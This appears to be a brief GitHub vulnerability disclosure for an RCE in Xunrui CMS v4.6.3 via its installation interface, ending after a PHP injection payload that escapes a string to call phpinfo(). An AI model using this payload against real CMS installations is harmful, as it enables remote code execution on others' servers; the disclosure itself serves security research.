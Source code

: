 # xunruicms_rce
The RCE is connected through the CMS installation interface
# Xunrui CMS Installation Vulnerability

## Affected Range:
- Xunrui CMS Website Edition/Popular Edition v4.6.3 (2024-12-17)

## Payload:
```php
;-- ---'];phpinfo();['
